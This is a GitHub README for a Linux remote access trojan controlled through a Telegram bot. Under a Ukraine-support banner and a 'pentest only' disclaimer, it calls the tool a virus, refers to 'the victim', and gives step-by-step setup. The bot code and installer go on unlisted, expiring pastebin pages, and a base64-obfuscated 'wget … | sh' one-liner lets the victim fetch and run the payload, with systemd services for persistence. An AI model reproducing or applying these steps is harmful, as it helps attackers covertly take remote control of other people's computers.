 # linuxRAT-tgBot 🖤🐧
<sub>ignore the program's output during boot</sub>

[![SWUbanner](https://raw.githubusercontent.com/vshymanskyy/StandWithUkraine/main/banner-direct.svg)](https://github.com/vshymanskyy/StandWithUkraine/blob/main/docs/README.md)


### Additional terms of use for users from Russia and Belarus

By using the code provided in these repositories you agree with the following:
* Russia has [illegally annexed Crimea in 2014](https://en.wikipedia.org/wiki/Annexation_of_Crimea_by_the_Russian_Federation) and [brought the war in Donbas](https://en.wikipedia.org/wiki/War_in_Donbas) followed by [full-scale invasion of Ukraine in 2022](https://en.wikipedia.org/wiki/2022_Russian_invasion_of_Ukraine).
* Russia has brought sorrow and devastations to millions of Ukrainians, killed hundreds of innocent people, damaged thousands of buildings, and forced several million people to flee.
* [Putin khuylo!](https://en.wikipedia.org/wiki/Putin_khuylo!)

### Glory to Ukraine! 🇺🇦

##### Disclaimer ⚠️
- Neither the project nor its developer promote any kind of illegal activity and are **not** responsible for any misuse or damage caused by this project.
- This project is for the purpose of penetration **testing only**.
- Please do **not** use this tool on other people's devices without their permission.
- Do **not** use this tool to harm others.
- Use this project responsibly on your own devices **only**.
- It is the end user's **responsibility** to obey all applicable local, state, federal, and international laws.
- This software is meant for educational purposes only. I'm **not** responsible for any malicious use of the app.
- I'm **not** responsible for any malicious use of the app.

# Features 🔥
- this is a remote access virus (so-called RAT);
- the victim does not need a white IP ✨;
- management is carried out using a telegram bot;
- you just need to put the data in a configuration file and upload it all to [pastebin](https://pastebin.com/);
- easy to use

# Requirements 👀
+ python3
    + aiogram==3.0.0b6
    + requests
+ bash commands
    + WGET
	+ CURL
    + imagemagick (not necessarily)
	+ cd
	+ systemct ( systemd🐧 )
	+ sleep (not necessarily)
	+ echo (not necessarily)
	+ if 
	+ then
	+ mkdir
	+ apt (not necessarily)
	+ clear (not necessarily)
+ internet
+ linux!

# Install  🥷🏽
Well, let's start!
I use pastebin, you can use any text paste tool on the web.

1) Setup the bot's config:   
1.1) Copy all code from this [site](https://raw.githubusercontent.com/dentuwu/linuxRAT-tgBot/main/kernel.py).   
1.2) Paste this code in pastebin.com   
1.3) In the TOKEN ribbon, enter your bot token.   
1.4) In the ADMINS ribbon, enter the administrator's ID (listing the user's id in commas), so that only they can use the bot, the id can be taken in [this bot](t.me/myidbot).   
1.5) In the TIMEOUT ribbon, enter a timeout, if the command takes a long time to execute, it will be aborted after n (default 45) seconds.   

2) You should have it in the settings:     
+ Paste Expiration: 1 Week (recommended).    
+ Paste Exposure: Unlisted (so other users don't see your token and id).   

You should get it:   

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/code.jpg "code kernel.py") 
 
![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/optional-paste-settings.jpg "settings paste")

2.1) **Touch** button "Create New Paste".     
3) Click on raw, and **save** the received link:     

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/raw.jpg "rickroll")

4) Setup the install.sh config    
4.1) Copy all code from this [site]https://github.com/dentuwu/linuxRAT-tgBot/raw/main/install.sh).   
4.2) Paste this code in pastebin.com    
4.3) In the URL_KERNEL_PY ribbon, enter the link obtained in point 3.    

 ![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/url-kernel-py.jpg "url kernel py")

4.4) If possible, do the same with URL_KERNEL_SERVICE,URL_NO_ROOT_KERNEL_SERVICE, services are at [this link](https://github.com/dentuwu/linuxRAT-tgBot/tree/main/services), it is **not necessary**.     
4.5) Repeat the points 2.1 and 3.   

##### Using
Open a new terminal, and write this code :   
```bash
 echo "wget url  -O- | sh" | base64
```
Instead of **url**, there should be a link obtained in point 4.5   

You received something like this output - cmlja3JvbGwK, copy it and formulate a ready-made command to download the script and run it:   

```bash
 echo output | base64 -d | bash
```
 
Run this command (on your devices only)!  


## The victim does work
**this is script tested on:**  
* Ubuntu 22.04 LTS  

## The victim does not work in
* Termux

